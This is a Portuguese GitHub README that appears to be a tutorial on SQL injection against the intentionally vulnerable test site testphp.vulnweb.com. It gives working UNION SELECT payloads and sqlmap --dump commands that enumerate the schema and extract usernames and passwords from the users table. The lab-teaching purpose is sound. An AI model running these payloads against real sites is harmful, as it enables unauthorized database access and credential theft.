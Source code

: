 # SQLinjection

Aqui apresento uma técnica simples de SQl Injection ontem utilizaremos paremetros do banco de dados fazendo com que o mesmo retorne as informações do banco na pagina Web, uma vulnerabilidade frequente em sites amadores ou feitos por iniciantes que tendem a conectar o banco de dados diretamente sem qualquer tratamento, onde as requisições são passadas em String junto a informações Web podendo assim serem interceptadas e possibilitanto a inserção de comandos.

Site utilizado para teste <br>

    http://testphp.vulnweb.com/

  # Primeiro Acesso
  Ao acessar o site verifico que se trata de um site em PHP em um servidor Apache Versão 2.4.46 que possui algumas falhas que possibilitam uma execução de código remota ou Reverse Shell, além de possuir um Metasploit conhecido por esta falha.
  Utilizo a primeira ferramenta chamada *Dirb*, utilizada para escanear diretórios de uma pagina web baseada uma Word List précarregada ou possibilitando o uso da sua própria Word List que facilitaria em casos que você já conhece o site e precisaria buscar apenas por palavras chave melhor direcionadas.
  Com esse scan encontro diretórios padrões como /admin/, /pictures/, /vendor/ etc, até o diretório de interesse que seria /login.php onde podemos verificar se o site aceita comandos no input Login e Password passando parametros como '1=1 or e Password vazio,
  ![image](https://github.com/user-attachments/assets/a3d6e2d0-550e-42c8-b9d7-1e0119144e94)
o que deve retornar uma mensagem 
![image](https://github.com/user-attachments/assets/54c91df2-4f9e-4e03-a86b-22112507b859)
nos mostrando que existe um erro na Sintaxe SQL que foi passada ao banco de dados para confirmação/autenticação do usuário e senha, com essa confirmação podemos passar ao "Ataque", neste caso utilizarei Union que basicamente insere informações manualmente fazendo com que o site entenda a solicitação passada como uma requisição e retorne uma concatenação com informações do Banco De Dados, trazendo por exemplo a coluna User, pass e suas informações.
    Para isso verifico algumas paginas do site e em seus diretórios encontro algumas solicitações utilizando o parametro *CAT* e em teste atualizando os valores vemos que as informações são alteradas mudando o diretório e suas informações e com esses testes entendemos que podemos injetar comando SQL e receber suas respostas.
    *um teste valido é nesta pagina em que é passado o comando cat podeos passar qualquer parametro e descobrir se a pagina retornar um erro informando Banco de Dados, Versão e o caminho que é linkado ao Banco De Dados*
    # Definindo Range de Colunas
    Neste teste utilizamos o parametro Union Select seguido por números de colunas até que retorne um erro onde verificamos a quantidade de Colunas que foi definida neste Banco De Dados, existem algumas ferramentas que automatizam essa pesquisa mas neste caso em um ambiente controlaso sabemos que o site possui 11 colunas e posso utilizar essa informação da seguinte forma
    http://testphp.vulnweb.com/listproducts.php?cat=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11
![image](https://github.com/user-attachments/assets/5a42ff5e-f573-4fda-abf1-cb31a4fd95d2)

Que retorna as informações sem erro, agora para um segundo teste podemos solicitar a versão e verificar a apresentação da informação <br>

        testphp.vulnweb.com/listproducts.php?cat=1 union select 1,version(),3,4,5,6,7,8,9,10,11

que nos traria a informação da seguinte maneira<br>
    ![image](https://github.com/user-attachments/assets/7f501c8a-6a20-4771-862d-00567a65c4f9)
    Para descobrir o nome do banco de dados utilizamos o Database(), então seguindo a mesma logica<br>
    
        testphp.vulnweb.com/listproducts.php?cat=-1 union select 1,database(),3,4,5,6,7,8,9,10,11
        

![image](https://github.com/user-attachments/assets/0ef768a6-b53b-4d4d-8f58-ba100fdf5343)







 # SQLMAP
 Com essas informações podemos utilizar um segundo metodo com o SQLMAP utilizando a ferramenta para expor os diretórios e navegar entre eles.
 
         sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --tables -D acuart
Ao aplicar este comando você receberá as seguintes confirmações
    ![image](https://github.com/user-attachments/assets/4c3493ef-53f4-49ee-b1c1-6c629f218491)

Obtendo este resultado podemos passar ao proximo comando que seria o *DUMP*, que sendo direcionado para a coluna USERS mostrará suas informações

        sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dump -T users -D acuart

![image](https://github.com/user-attachments/assets/b12b2a3c-5f04-4117-b835-50e264b7abbb)
aqui vemos que foram encontradas as informações de usuários

# Dump
Seguindo a linha de testes, todas as informações de Dump também podem ser obtidas de maneira manual já que vimos onde o navegadores responde aos comandos SQL
    e podemos fazer esta tentativa da seguinte maneira, buscando pelo Information Schema que são sessões padrões dos bancos SQL criadas automaticamente e que podem servir de trampolim para que possamos nos aprofundar em mais informações.
    utilizando o caminho 
    
            testphp.vulnweb.com/listproducts.php?cat=-1 union select 1,schema_name,3,4,5,6,7,8,9,10,11 from information_schema.schemata
com este acesso conseguimos encontrar mais informações sobre o banco de dados onde conseguimos entender quantos bancos existem naquele esquema, onde precisaremos ir e compreender até onde o usuário padrão pode acessar nos registros.
    ![image](https://github.com/user-attachments/assets/2c41debc-0ba3-4678-8ddf-b7361a846326)
A partir deste ponto podemos ter acesso as Tabelas do banco de dados, seguindo a mesma logica mas agora com o seguinte comando

        testphp.vulnweb.com/listproducts.php?cat=-1 union select 1,table_name,3,4,5,6,7,8,9,10,11 from information_schema.tables

![image](https://github.com/user-attachments/assets/0a65175b-b636-46c1-b411-d07cc4a72e5b)

O que nos revela todas as tabelas do banco de dados, com isso geramos um ruido de informação e para filtrar toda essa informação direcionando a busca agora que sabemos que o banco alvo se chama ACUART podemos direcionr com o comando

    testphp.vulnweb.com/listproducts.php?cat=-1 union select 1,table_name,3,4,5,6,7,8,9,10,11 from information_schema.tables WHERE table_schema = "acuart"

Nos trazendo informações mais precisas sobre as tabelas como podemos ver naimagem abaixo
![image](https://github.com/user-attachments/assets/09ffeef9-d299-4b90-8c95-13344683dc21)

Conhecendo o Banco, As tabelas agora podemos ir ao nome das Colunas baseados em nossos resultados, utilizamos os seguintes argumentos SQL

        testphp.vulnweb.com/listproducts.php?cat=-1 union select 1,column_name,3,4,5,6,7,8,9,10,11 from information_schema.columns WHERE table_schema = "acuart"
O que nos retorna as informações de tabela do Banco como ID, Name, Phone, PASS, USER NAME etc, o próximo passo para chegarmos mais perto das informações seria lapidar novamente o que conseguimos extrair do banco de dados, acrescentando o table_name e filtrando por users

        testphp.vulnweb.com/listproducts.php?cat=-1 union select 1,column_name,3,4,5,6,7,8,9,10,11 from information_schema.column WHERE table_schema = "acuart" and table_name="users"

![image](https://github.com/user-attachments/assets/e1c3ebca-05bf-4a8b-8163-19ca077eeb53)

Agora que conseguimos as colunas podemos acessar as informações que buscamos desde o inicio como uname e pass para acessarmos o painel com usuário e senha, por fim podemos uutilizar o parametro uname from users para conseguir acesso as informações tanto da tabela uname quando da tabela pass

        testphp.vulnweb.com/listproducts.php?cat=-1 union select 1,uname,3,4,5,6,7,8,9,10,11 from users
![image](https://github.com/user-attachments/assets/45b75270-9c21-412c-bf6d-831786c11288)
e

        testphp.vulnweb.com/listproducts.php?cat=-1 union select 1,pass,3,4,5,6,7,8,9,10,11 from users
![image](https://github.com/user-attachments/assets/d850e68b-2170-47cd-92bb-5198df1bc318)
Finalizando assim a caçada aos dados pelo banco de dados, onde conseguimos obter as informações de acesso simplesmente inserindo queries SQL pois o site não recebeu tratamento em suas requisições permitindo que esta falha seja explorada.
